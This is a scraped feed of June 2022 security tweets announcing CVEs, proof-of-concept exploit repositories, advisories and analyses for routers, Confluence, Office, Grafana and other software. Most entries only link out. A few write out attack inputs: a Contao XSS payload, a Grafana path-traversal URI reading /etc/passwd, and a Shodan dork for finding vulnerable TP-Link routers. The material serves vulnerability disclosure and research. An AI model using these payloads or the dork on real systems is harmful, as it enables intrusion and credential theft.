

# ksg93rd
**https://twitter.com/ksg93rd/status/1537637402424098816 _at 2022-06-17 03:24:59_**
<blockquote>
#exploit
1. CVE-2022-30075:
Tp-Link Archer AX50 Authenticated RCE
https://t.co/7JkU2JC7oZ

2. CVE-2022-30023:
Authenticated Command Injection on Tenda HG9 Router
https://t.co/Rgbk8gUT2P

3. CVE-2022-25845:
Auto Type Bypass RCE vulnerability
https://t.co/dXR3vYYJnv
</blockquote>

* https://github.com/aaronsvk/CVE-2022-30075
* https://github.com/Haniwa0x01/CVE-2022-30023
* https://jfrog.com/blog/cve-2022-25845-analyzing-the-fastjson-auto-type-bypass-rce-vulnerability

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1537465412807442432 _at 2022-06-16 16:01:33_**
<blockquote>
Volexity report detailing the exploitation of a Sophos firewall zero-day from earlier this year

Zero-day is tracked as CVE-2022-1040 and its exploitation was linked to "DriftingCloud," a new APT that appears to be based in China

https://t.co/NdMiOUsFkb https://t.co/U77hLLfadf
</blockquote>

* https://www.volexity.com/blog/2022/06/15/driftingcloud-zero-day-sophos-firewall-exploitation-and-an-insidious-breach/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>56</code></td>
</tr></table>

---

# pentest_swissky
**https://twitter.com/pentest_swissky/status/1537404119127691267 _at 2022-06-16 11:58:00_**
<blockquote>
CVE-2022-21972: Windows Server VPN Remote Kernel Use After Free Vulnerability https://t.co/Olq8qu8zpR
</blockquote>

* https://labs.nettitude.com/blog/cve-2022-21972-windows-server-vpn-remote-kernel-use-after-free-vulnerability/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>98</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1537351630877696000 _at 2022-06-16 08:29:26_**
<blockquote>
Researchers detail a recently reported high-severity #vulnerability (CVE-2022-25845) in the Fastjson library that could potentially be exploited for remote code execution attacks.

Read: https://t.co/b0Gvl4lUhQ

#infosec #sysadmin #DevOps #cybersecurity #hacking
</blockquote>

* https://thehackernews.com/2022/06/high-severity-rce-vulnerability.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>97</code></td>
</tr></table>

---

# 41thexplorer
**https://twitter.com/41thexplorer/status/1537209987570847744 _at 2022-06-15 23:06:35_**
<blockquote>
OMI is back! @msftsecresponse published CVE-2022-29149, a new LPE vulnerability in OMI, the Azure agent that was vulnerable to #OMIGOD. Seems like manual update of the silently installed agent is required again in most cases 

https://t.co/Ga4hETg6i2
</blockquote>

* https://msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2022-29149

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>112</code></td>
</tr></table>

---

# Volexity
**https://twitter.com/Volexity/status/1537144102218870784 _at 2022-06-15 18:44:47_**
<blockquote>
.@Volexity offers a case study on real-world #zeroday exploitation of a Sophos XG Firewall via CVE-2022-1040 by #DriftingCloud. Read about man-in-the-middle attacks, stolen session cookies, and how this APT moved beyond the firewall: https://t.co/3TthlXpXe8 #threatintel #dfir
</blockquote>

* https://www.volexity.com/blog/2022/06/15/driftingcloud-zero-day-sophos-firewall-exploitation-and-an-insidious-breach/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>69</code></td>
<td>Favorites: <code>98</code></td>
</tr></table>

---

# yorickkoster
**https://twitter.com/yorickkoster/status/1536984261823176704 _at 2022-06-15 08:09:38_**
<blockquote>
(Windows) PoC for LPE in AWS Client VPN &lt; 3.1.0. It was possible to bypass the configuration validation using carriage return (\r) chars. OpenVPN uses fgets() that doesn't consider \r as new line, the client did https://t.co/9E6iVXWxCy
</blockquote>

* https://gist.github.com/ykoster/f7968ed1c23769d513a4641c84ec0673

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---

# 80vul
**https://twitter.com/80vul/status/1536920233255968769 _at 2022-06-15 03:55:12_**
<blockquote>
https://t.co/EZlw4Vr9dV The official patch for CVE-2022-30190 is released. Added regular filtering to the RunScript function, which means that this vulnerability turns into a game that tries to bypass https://t.co/WnFQaDB3Hv
</blockquote>

* https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-30190

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>247</code></td>
</tr></table>

---

# scannell_simon
**https://twitter.com/scannell_simon/status/1536766828491456514 _at 2022-06-14 17:45:38_**
<blockquote>
CVE-2022-27924 allows an unauthenticated, remote attacker to dump clear-text creds from a Zimbra instance with default config. We used Memcache response injection to bypass restrictions. Apparently Zimbra is used by over 200.000. Patch now! https://t.co/7ziBH7G4ax
</blockquote>

* https://blog.sonarsource.com/zimbra-mail-stealing-clear-text-credentials-via-memcache-injection/

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>98</code></td>
<td>Favorites: <code>215</code></td>
</tr></table>

---

# _r_netsec
**https://twitter.com/_r_netsec/status/1536735993889316864 _at 2022-06-14 15:43:06_**
<blockquote>
CVE-2022-25845 – Analyzing the Fastjson “Auto Type Bypass” RCE vulnerability https://t.co/eZSzQB2xIc
</blockquote>

* https://jfrog.com/blog/cve-2022-25845-analyzing-the-fastjson-auto-type-bypass-rce-vulnerability/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>120</code></td>
</tr></table>

---

# _r_netsec
**https://twitter.com/_r_netsec/status/1536717120570269696 _at 2022-06-14 14:28:07_**
<blockquote>
If you want to play with Dogwalk windows vulnerability https://t.co/MeKmn54x6C
</blockquote>

* https://github.com/ariary/Dogwalk-rce-poc

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# KarimPwnz
**https://twitter.com/KarimPwnz/status/1536585688224702466 _at 2022-06-14 05:45:51_**
<blockquote>
Here's my repository of Sourcegraph scripts: https://t.co/OLymssEug8. Sourcegraph is a great way to find vulns like RCE, XSS, and improper deserialization in GitHub repos. 

The scripts allow you to download files from Sourcegraph results and to run static analysis tools on them https://t.co/cQmIaZK5XI
</blockquote>

* https://github.com/KarimPwnz/sourcegraph-scripts

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1536571918559608833 _at 2022-06-14 04:51:08_**
<blockquote>
Dogwalk PoC (using diagcab file to obtain RCE on windows) https://t.co/mcZbtMUaAR
</blockquote>

* https://github.com/ariary/Dogwalk-rce-poc

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---

# r0ns3n
**https://twitter.com/r0ns3n/status/1536406746494803971 _at 2022-06-13 17:54:48_**
<blockquote>
Another #CVE-2022-22187 of mine just got published. Juniper Networks Juniper Identity Management Service (JIMS) for #Microsoft #Windows contains a local privilege escalation #vulnerability.
#Mandiant #MYOW #MandiantVulnerabilityDisclosure 

https://t.co/W7jNBUUkeg
</blockquote>

* https://github.com/mandiant/Vulnerability-Disclosures/blob/master/2022/MNDT-2022-0029/MNDT-2022-0029.md

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>9</code></td>
</tr></table>

---

# danusminimus
**https://twitter.com/danusminimus/status/1536388094576009216 _at 2022-06-13 16:40:41_**
<blockquote>
Interesting stuff anomaly about DOCX and RTF files when generating the Follina exploit using @chvancooten POC https://t.co/sqetryK1bB

If the exploit is generated using default parameters which means the payload will be hosted at "http://localhost:80/exploit.html" 1/? 🧵
</blockquote>

* https://github.com/chvancooten/follina.py

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>37</code></td>
</tr></table>

---

# 0x1b_co
**https://twitter.com/0x1b_co/status/1536288413087076353 _at 2022-06-13 10:04:35_**
<blockquote>
@UK_Daniel_Card @TPLINK You should have tried this before updating, PoC is targeted at the AX50 though 
CVE-2022-30075: Authenticated Remote Code Execution in Tp-Link Routers.

PoC
https://t.co/egmhHGuybG https://t.co/DRshHjgrDz
</blockquote>

* https://github.com/aaronsvk/CVE-2022-30075

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# CyberWarship
**https://twitter.com/CyberWarship/status/1536280730023649281 _at 2022-06-13 09:34:03_**
<blockquote>
"KrbRelayUp - a universal no-fix local privilege escalation in windows domain environments where LDAP signing is not enforced (the default settings)"

#pentest #redteam #infosec
https://t.co/u6dUxHBLIs https://t.co/qxf9emfVMU
</blockquote>

* https://github.com/Dec0ne/KrbRelayUp

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>104</code></td>
</tr></table>

---

# ksg93rd
**https://twitter.com/ksg93rd/status/1536042381073686528 _at 2022-06-12 17:46:56_**
<blockquote>
#exploit
1. CVE-2022-23642:
PoC for Sourcegraph Gitserver &lt; 3.37 RCE
https://t.co/bc98Inxvfq

2. CVE-2022-24806/CVE-2022-24807:
Unauthenticated RCE vulnerability in Magento and Adobe Commerce
https://t.co/4VZvwWnlMe
</blockquote>

* https://github.com/Altelus1/CVE-2022-23642
* https://github.com/oturu/CVE-2022-24806-MASS-RCE

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# c3rb3ru5d3d53c
**https://twitter.com/c3rb3ru5d3d53c/status/1536008762397544448 _at 2022-06-12 15:33:21_**
<blockquote>
🚨 #Suricata #Exploit #WordPress Weblizar Backdoor RCE (CVE-2022-1609)

https://t.co/EjvVAt3nWx https://t.co/vNoAIvwMxZ
</blockquote>

* https://github.com/c3rb3ru5d3d53c/signatures/blob/master/signatures/exploit/cve-2022-1609/cve-2022-1609.suricata-6.0.5.rules

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>13</code></td>
</tr></table>

---

# MarioGuglia
**https://twitter.com/MarioGuglia/status/1535978251067211777 _at 2022-06-12 13:32:06_**
<blockquote>
#CVE-2022-30075
Authenticated RCE  Tp-Link Routers
shodan dork:
 "HTTP/1.1 200 OK" "Server: TP-LINK HTTPD/1.0" "COOKIE="

exploit: https://t.co/I6xkYcqIGf
</blockquote>

* https://github.com/aaronsvk/CVE-2022-30075

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1535912475421548546 _at 2022-06-12 09:10:44_**
<blockquote>
CVE-2022-24806/CVE-2022-24807

Unauthenticated RCE vulnerability in Magento and Adobe Commerce

https://t.co/OdGGpnLMBB

#cve

GitHub
oturu/CVE-2022-24806-MASS-RCE
CVE-2022-24806 and CVE-2022-24807 are an unauthenticated RCE vulnerability in magento and… https://t.co/gCIhLY300s https://t.co/KTgoVEfb9p
</blockquote>

* https://github.com/oturu/CVE-2022-24806-MASS-RCE
* https://t.me/hackgit/4544

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1535890951226462208 _at 2022-06-12 07:45:12_**
<blockquote>
CVE-2022-30075: Authenticated Remote Code Execution in Tp-Link Routers.

PoC
https://t.co/AGyD2CVWA8 https://t.co/qU87X48x39
</blockquote>

* https://github.com/aaronsvk/CVE-2022-30075

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>188</code></td>
<td>Favorites: <code>488</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1535804541077434369 _at 2022-06-12 02:01:51_**
<blockquote>
PoC for Sourcegraph Gitserver &lt; 3.37.0 RCE (CVE-2022-23642)  https://t.co/cBy4qA9aV2 #Pentesting #CyberSecurity #Infosec https://t.co/Fw0PI13L31
</blockquote>

* https://github.com/Altelus1/CVE-2022-23642

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>28</code></td>
</tr></table>

---

# noob_kiddiez
**https://twitter.com/noob_kiddiez/status/1535645839762522112 _at 2022-06-11 15:31:13_**
<blockquote>
#CyberNews: Researcher releases PoC exploit for a new authenticated RCE #vulnerability (CVE-2022-30075) affecting Tp-Link routers.

#cybersecurity #RCE

https://t.co/pfyoCOppsc
</blockquote>

* https://github.com/aaronsvk/CVE-2022-30075

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# lukOlejnik
**https://twitter.com/lukOlejnik/status/1535643213712830466 _at 2022-06-11 15:20:47_**
<blockquote>
Attempted cyberattack/operation aimed at Ukrainian media organizations (radio stations, newspapers, news agencies, etc.). Suspected Sandworm group trying to exploit CVE-2022-30190 (fresh, remote code execution vulnerability via Office/Word) https://t.co/UtHWUvnwCk https://t.co/yznXpfh7Ys
</blockquote>

* https://cert.gov.ua/article/160530

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>67</code></td>
<td>Favorites: <code>127</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1535620414268899329 _at 2022-06-11 13:50:11_**
<blockquote>
Researcher releases PoC exploit for a new authenticated RCE #vulnerability (CVE-2022-30075) affecting Tp-Link routers.

https://t.co/MwaPmYk9HG

"If your Tp-Link router has backup and restore functionality and firmware is older than june 2022, it is probably vulnerable" https://t.co/GtXG37KzNf
</blockquote>

* https://github.com/aaronsvk/CVE-2022-30075

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>182</code></td>
</tr></table>

---

# 0xInfection
**https://twitter.com/0xInfection/status/1535462485075304448 _at 2022-06-11 03:22:38_**
<blockquote>
I wrote ConfluentPwn — an automated scanner to find vulnerable instances of the unauthenticated Confluence ONGL injection RCE vulnerability (CVE-2022-26134). Demo attached in the GIF below.

https://t.co/r31UXzWkDP

Features and feedbacks appreciated! :) https://t.co/twQmnA3vHx
</blockquote>

* https://github.com/redhuntlabs/ConfluentPwn/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>17</code></td>
</tr></table>

---

# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1535417776290111489 _at 2022-06-11 00:24:59_**
<blockquote>
Multiple adversaries and nation-state actors, including DEV-0401 and DEV-0234, are taking advantage of the Atlassian Confluence RCE vulnerability CVE-2022-26134. We urge customers to upgrade to the latest version or apply recommended mitigations: https://t.co/C3CykQgrOJ
</blockquote>

* https://msft.it/6015b5npx

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>82</code></td>
<td>Favorites: <code>160</code></td>
</tr></table>

---

# rootsecdev
**https://twitter.com/rootsecdev/status/1535385493407506432 _at 2022-06-10 22:16:42_**
<blockquote>
Add Exploit for CVE-2022-26134 (Confluence RCE) by zeroSteiner · Pull Request #16644 · rapid7/metasploit-framework · GitHub https://t.co/kcMMFcdgAg
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/16644

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# mr_r3bot
**https://twitter.com/mr_r3bot/status/1535286185358401536 _at 2022-06-10 15:42:05_**
<blockquote>
I just wrote a technical analysis blog about Confluence CVE-2022-26134, especially focus on Confluence version 7.18.0 where isSafeExpression is introduced and different ways that you can bypass it :). If you have any questions, please dm me :)
https://t.co/AqWJ11qko5
</blockquote>

* https://mr-r3bot.github.io/research/2022/06/06/Confluence-Preauth-RCE-2022.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>168</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1535281950029918209 _at 2022-06-10 15:25:15_**
<blockquote>
GitHub - Altelus1/CVE-2022-23642: PoC for Sourcegraph Gitserver &lt; 3.37.0 RCE - https://t.co/lVuXEWiYBo
</blockquote>

* https://github.com/Altelus1/CVE-2022-23642

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---

# jorgemieres
**https://twitter.com/jorgemieres/status/1535238360737923074 _at 2022-06-10 12:32:03_**
<blockquote>
📢 #vulnerability ↔️ Authenticated Remote Code Execution in Tp-Link Routers  ↔️ CVE-2022-30075
https://t.co/75MRoosc8l

#PoC #RemoteCodeExecution #RCE #TpLink #router https://t.co/5dqKBMNVa0
</blockquote>

* https://github.com/aaronsvk/CVE-2022-30075

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>7</code></td>
</tr></table>

---

# pythontrending
**https://twitter.com/pythontrending/status/1535213325012897793 _at 2022-06-10 10:52:34_**
<blockquote>
CVE-2022-30075 - Tp-Link Archer AX50 Authenticated RCE (CVE-2022-30075) https://t.co/gXXO9PsFgo
</blockquote>

* http://github.com/aaronsvk/CVE-2022-30075

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# LinInfoSec
**https://twitter.com/LinInfoSec/status/1534792600108032000 _at 2022-06-09 07:00:45_**
<blockquote>
Django - CVE-2022-24840: https://t.co/ZvKSYiMdrk
</blockquote>

* https://github.com/codingjoe/django-s3file/commit/68ccd2c621a40eb66fdd6af2be9d5fcc9c373318

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# ksg93rd
**https://twitter.com/ksg93rd/status/1534748917753122816 _at 2022-06-09 04:07:10_**
<blockquote>
#exploit
1. CVE-2022-30075:
TP-Link Archer AX50 Authenticated RCE
https://t.co/7JkU2JC7oZ

2. CVE-2022-1609:
Bash poc for WordPress Weblizar Backdoor
https://t.co/yc130yQF1E
</blockquote>

* https://github.com/aaronsvk/CVE-2022-30075
* https://github.com/Trhackno/CVE-2022-1609

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1534542758991511557 _at 2022-06-08 14:27:58_**
<blockquote>
The latest blog from the Trend Micro Research Team looks at CVE-2022-26937: a Microsoft Windows NFS NLM Portmap stack buffer overflow that could lead to RCE. They provide root cause, source code walkthrough, and detection guidance. https://t.co/FhKhIeoG35
</blockquote>

* https://www.zerodayinitiative.com/blog/2022/6/7/cve-2022-26937-microsoft-windows-network-file-system-nlm-portmap-stack-buffer-overflow

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>155</code></td>
</tr></table>

---

# ransomsec
**https://twitter.com/ransomsec/status/1534469201737687040 _at 2022-06-08 09:35:41_**
<blockquote>
CVE-2022-23222

Linux kernel eBPF Local Privilege Escalation! #linux #Exploit
https://t.co/ARjcKNNPZX https://t.co/DWT3bmI1kJ
</blockquote>

* https://github.com/tr3ee/CVE-2022-23222

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---

# ksg93rd
**https://twitter.com/ksg93rd/status/1534375011389214720 _at 2022-06-08 03:21:24_**
<blockquote>
#exploit
CVE-2022-23222:
Linux Kernel eBPF LPE
https://t.co/nAgTjwxvjN
</blockquote>

* https://github.com/tr3ee/CVE-2022-23222

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1534349304688967680 _at 2022-06-08 01:39:15_**
<blockquote>
CVE-2022-1588 Contao 4.13.2 Cross-Site Scripting (XSS)
URL: https://localhost/contao/"&gt;&lt;svg//onload=alert('momika233')&gt;
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>134</code></td>
</tr></table>

---

# habib0x_
**https://twitter.com/habib0x_/status/1534296154585935874 _at 2022-06-07 22:08:03_**
<blockquote>
#CVE-2022-26134 Atlassian Confluence RCE Exploit in Ruby 

https://t.co/6x8ABe3rub https://t.co/ioIApH7tev
</blockquote>

* https://github.com/hab1b0x/CVE-2022-26134/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# huntrHacktivity
**https://twitter.com/huntrHacktivity/status/1534203993689165825 _at 2022-06-07 16:01:50_**
<blockquote>
Code Injection in https://t.co/i5Dj0XFlvA (CVE-2022-2014) reported by 7085 - Patch: https://t.co/zXTbpTWUPq
https://t.co/irXPNxEQvC #bugbounty #infosec #opensource
</blockquote>

* https://github.com/jgraph/drawio
* https://github.com/jgraph/drawio/commit/3d3f819d7a04da7d53b37cc0ca4269c157ba2825
* https://huntr.dev/bounties/911a4ada-7fd6-467a-a464-b88604b16ffc/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# netalexx
**https://twitter.com/netalexx/status/1534196257140383746 _at 2022-06-07 15:31:06_**
<blockquote>
CVE-2022-32276
Unauthenticated and authenticated users can send a false request for snapshot query using random key parameters, having access to the system dashboard area by going through the login page.
https://t.co/rIt40mXKdy
</blockquote>

* https://github.com/BrotherOfJhonny/grafana

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# bot_for_devs
**https://twitter.com/bot_for_devs/status/1534173527166922752 _at 2022-06-07 14:00:47_**
<blockquote>
10. CVE-2022-26134 
 
[PoC] Atlassian Confluence (CVE-2022-26134) - Unauthenticated OGNL injection vulnerability (RCE) 
 
#Python 
 
https://t.co/3bfCNynbPZ
</blockquote>

* https://github.com/Nwqda/CVE-2022-26134

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# oss_security
**https://twitter.com/oss_security/status/1534130323407126528 _at 2022-06-07 11:09:06_**
<blockquote>
Re: Linux Kernel eBPF Improper Input Validation Vulnerability: Posted by tr3e wang on Jun 07Hi,
 
 The exploit code can be found at https://t.co/bcuZ2Wm1KY
 
 Alexander, thanks for the update and for helping me post the exploit
 code, I suffered from… https://t.co/isI2xg1NBd
</blockquote>

* https://github.com/tr3ee/CVE-2022-23222
* http://dlvr.it/SRlwLT

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>56</code></td>
</tr></table>

---

# pythontrending
**https://twitter.com/pythontrending/status/1534119365653700608 _at 2022-06-07 10:25:33_**
<blockquote>
CVE-2022-26134 - [PoC] Atlassian Confluence (CVE-2022-26134) - Unauthenticated OGNL injection vulnerability (RCE) https://t.co/LVeRYialxM
</blockquote>

* http://github.com/Nwqda/CVE-2022-26134

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# 80vul
**https://twitter.com/80vul/status/1534060061869285377 _at 2022-06-07 06:29:54_**
<blockquote>
"CVE-2022-30190 MSDT PowerShell Code Injection Vulnerability Analysis" https://t.co/ViRj51xWLf (Chinese) by HuanGMz@KnownSec  404 Team . The original model of the vulnerability is code injection caused by the lack of filtering $ in the .AddScript() function parameter. https://t.co/Cbz3VnMbKI
</blockquote>

* https://paper.seebug.org/1913/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1533941426320310272 _at 2022-06-06 22:38:29_**
<blockquote>
800+ unique IPs and counting... read fresh insights from our research team on zero-day vulnerability Atlassian Confluence CVE-2022-26134. https://t.co/dvG31gk1xv
</blockquote>

* https://www.greynoise.io/blog/observed-in-the-wild-atlassian-confluence-server-cve-2022-26134

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>47</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1533927736888238090 _at 2022-06-06 21:44:06_**
<blockquote>
Got a spot in Mozilla Hall of Fame (1st Quarter 2022) by reporting CVE-2022-26381 (Mozilla Firefox textPath Element Use-After-Free Remote Code Execution Vulnerability):
https://t.co/RKW4yefPVL
</blockquote>

* https://www.mozilla.org/en-US/security/bug-bounty/hall-of-fame/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>85</code></td>
</tr></table>

---

# CVEnew
**https://twitter.com/CVEnew/status/1533897860583931905 _at 2022-06-06 19:45:23_**
<blockquote>
CVE-2022-32275 Grafana 8.4.3 allows reading files via (for example) a /dashboard/snapshot/%7B%7Bconstructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd URI. https://t.co/1LMJnFOkbZ
</blockquote>

* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-32275

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>103</code></td>
<td>Favorites: <code>333</code></td>
</tr></table>

---

# payloadartist
**https://twitter.com/payloadartist/status/1533886478291714049 _at 2022-06-06 19:00:09_**
<blockquote>
Technical Analysis and Exploitation of CVE-2022-26134, critical unauthenticated RCE in Confluence, by @rapid7  

https://t.co/3xQzizl2ko

#infosec #cybersecurity #bugbounty #pentest https://t.co/Mi65pQKUaL
</blockquote>

